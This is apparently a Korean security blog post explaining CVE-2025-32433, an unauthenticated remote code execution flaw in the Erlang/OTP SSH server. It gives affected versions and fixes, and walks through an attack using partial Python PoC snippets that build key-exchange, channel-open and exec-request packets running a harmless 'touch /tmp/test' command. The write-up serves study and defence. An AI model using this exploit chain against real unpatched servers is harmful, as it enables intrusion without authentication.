 ```yaml
---
title: "[하루한줄] CVE‑2025‑32433: Erlang/OTP SSH의 Pre-auth RCE 취약점"
author: bekim
tags: [CVE‑2025‑32433, Erlang/OTP, SSH, RCE, bekim]
categories: [1day1line]
date: 2025-06-28 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- [https://nvd.nist.gov/vuln/detail/CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)
- [https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce](https://www.keysight.com/blogs/en/tech/nwvs/2025/05/23/cve-2025-32433-erlang-otp-ssh-server-rce)

## Target

- OTP 25 ≤ 25.3.2.19
- OTP 26 ≤ 26.2.5.10
- OTP 27 ≤ 27.3.2

## Explain

Erlang OTP는 Open Telecom Platform의 약자로, Erlang을 기반으로 실시간 서버나 메시징 시스템을 효율적으로 개발할 수 있도록 다양한 기능을 제공하는 플랫폼입니다.

해당 취약점은 Erlang/OTP의 SSH 서버 모듈에서 발생한 Pre-auth RCE(Remote Code Execution) 취약점으로, 인증 절차 이전에 SSH 메시지를 잘못 처리하여 인증 없이 원격에서 임의 코드를 실행할 수 있습니다.

이 취약점으로 인해 공격자는 SSH 연결 시, 인증 이후에만 전송되어야 하는 `SSH_MSG-CHANNEL_OPEN`(message number 90)과 `SSH_MSG_CHANNEL_REQUEST`(message number 98) 메시지를 인증 없이 전송할 수 있습니다. `SSH_MSG-CHANNEL_OPEN` 메시지는 사용자가 인증을 완료한 후 세션 채널을 열기 위해 사용되며, `SSH_MSG_CHANNEL_REQUEST`는 열린 채널을 통해 명령 실행 등을 요청할 때 사용됩니다.

SSH 프로토콜 명세([RFC 4254](https://datatracker.ietf.org/doc/html/rfc4254))에 따르면 이 메시지들은 인증 이후에만 허용되어야 하고, 이르게 전송된 메시지는 세션 종료로 처리해야 합니다. 하지만 취약한 버전의 Erlang/OTP에서 SSH 데몬이 이 규칙을 적용하지 않아, 공격자가 인증 없이도 세션 채널을 열고, exec 요청을 보낼 수 있습니다.

### Attack Flow

아래는 공개된 PoC 코드를 바탕으로 시뮬레이션한 공격 흐름입니다.

1. 클라이언트와 서버가 SSH 세션을 시작할 때 서로의 버전 정보를 교환하여 프로토콜 호환성을 확인합니다. 예를 들어 클라이언트는 SSH-2.0-OpenSSH_8.9 문자열을 서버와 교환합니다.

```python
s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
banner = s.recv(1024)
```

2. 클라이언트(공격자)는 SSH_MSG_KEXINIT 패킷을 전송하여 키 교환 과정을 시작합니다. 이 메시지에는 키 교환 방식, 암호화 알고리즘, 압축 옵션 등의 목록이 포함됩니다.

```python
def build_kexinit():
    cookie = b"\x00" * 16

    def name_list(l):
        return string_payload(",".join(l))

    # Match server-supported algorithms from the log
    return (
        b"\x14"
        + cookie
        + name_list(
            [
                "curve25519-sha256",
                "ecdh-sha2-nistp256",
                "diffie-hellman-group-exchange-sha256",
                "diffie-hellman-group14-sha256",
            ]
        )  # kex algorithms
        + name_list(["rsa-sha2-256", "rsa-sha2-512"])  # host key algorithms
        + name_list(["aes128-ctr"]) * 2  # encryption client->server, server->client
        + name_list(["hmac-sha1"]) * 2  # MAC algorithms
        + name_list(["none"]) * 2  # compression
        + name_list([]) * 2  # languages
        + b"\x00"
        + struct.pack(">I", 0)  # first_kex_packet_follows, reserved
    )
    
 ...
 
kex_packet = build_kexinit()
s.sendall(pad_packet(kex_packet))
```

3. 초기 키 교환이 끝나고, 공격자는 SSH_MSG_CHANNEL_OPEN 메시지를 통해 세션 채널 생성을 요청합니다. 원래 이 요청은 사용자 인증이 끝난 후에만 가능합니다.

```python
def build_channel_open(channel_id=0):
    return (
        b"\x5a"  # SSH_MSG_CHANNEL_OPEN
        + string_payload("session")
        + struct.pack(">I", channel_id)  # sender channel ID
        + struct.pack(">I", 0x68000)  # initial window size
        + struct.pack(">I", 0x10000)  # max packet size
    )

...

chan_open = build_channel_open()
s.sendall(pad_packet(chan_open))
```

하지만 CVE-2025-32433 취약점이 있는 경우 서버는 이 요청을 인증 없이 수락합니다. 따라서 공격자는 인증되지 않은 상태에서도 채널을 열 수 있습니다.

4. 공격자는 SSH_MSG_CHANNEL_REQUEST 메시지를 전송해, 열린 채널을 통해 명령을 실행하도록 요청합니다. 일반적으로 이 메시지는 인증된 세션 내에서 명령을 실행하기 위해 사용됩니다.

```python
chan_req = build_channel_request(
    command='os:cmd("touch /tmp/test").'
)
s.sendall(pad_packet(chan_req))
```

해당 취약점에서는 인증이 되지 않더라도 메시지를 수락합니다. 따라서 "exec" 페이로드가 포함된 요청이 허용될 수 있고, 공격자는 원격에서 임의의 쉘 명령을 실행할 수 있습니다.

![](./2025-06-28/image.png)

해당 취약점은 OTP 27.3.3, 26.2.5.11, 25.3.2.20 이상 버전에서 패치되었습니다.

## Reference

[https://www.sonicwall.com/blog/pre-auth-rce-alert-critical-ssh-flaw-in-erlang-otp-cve-2025-32433-](https://www.sonicwall.com/blog/pre-auth-rce-alert-critical-ssh-flaw-in-erlang-otp-cve-2025-32433-)

[https://github.com/ProDefense/CVE-2025-32433](https://github.com/ProDefense/CVE-2025-32433)